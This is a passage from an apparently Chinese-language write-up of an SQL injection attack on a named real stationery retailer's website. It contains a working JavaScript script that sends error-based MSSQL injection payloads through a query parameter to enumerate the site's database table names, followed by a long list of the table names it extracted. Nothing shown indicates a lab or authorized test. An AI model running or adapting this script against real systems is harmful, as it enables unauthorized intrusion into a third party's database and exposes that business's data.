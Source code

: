卡在 querystring 太長，所以要換個策略

19. 分成 a-z + 非 a-z 提取 table_name，如果還是太多，可以再細分 aa 開頭 ~ az 開頭，理論上是可以窮舉出所有 table_name

```js
const table_names = [];
const fixedUrl = `https://xl-stationer.com.tw/_Models/mItemList.asp?ClsUpId=';SELECT 1/name FROM sysobjects WHERE xtype LIKE 'U' AND name BETWEEN 'A' AND 'Az'--`;
async function main() {
  for (let i = 0; i < 40; i++) {
    const andSyntax = table_names
      .map((table_name) => ` AND name NOT LIKE '${table_name}'`)
      .join("");
    const fullUrl = `${fixedUrl}${andSyntax}--`;
    const res = await fetch(fullUrl);
    const text = await res.text();
    const table_name = text.split("'")[1] === "80004005" && text.split("'")[3];
    if (table_name) table_names.push(table_name);
    else break;
  }
  console.log("end");
}
```

結果 A 開頭的 table_name 超級多...

```js
[
  "AccDoc",
  "AccPeremDelDetail",
  "AccPeremDetail",
  "AccProj",
  "Acc",
  "AccProjBak",
  "AccHistory",
  "AccSum",
  "AccItem",
  "AttendancePunch",
  "Account_Counter",
  "AttendancePunchClass",
  "AttendancePunchMatrix",
  "AttendancePunchMatrixResult",
  "AREA",
  "AccMemo",
  "AttendancePunchMatrixTemp",
  "AccPeremXL",
  "AccMon",
  "AccLite",
  "AccLiteDetail",
  "AddValueDetail",
  "Absent",
  "absent_type",
  "AccAdj",
  "AccClear",
  "AccCls",
  "AccClsUp",
  "AccDay",
  "AccDepa",
  "AccDepaXL",
  "AccDetail",
  "AccDetailXL",
  "AccPerem",
  "AccPeremDel",
  "AccXL",
  "AddValue",
  "AdjPriceBath",
```
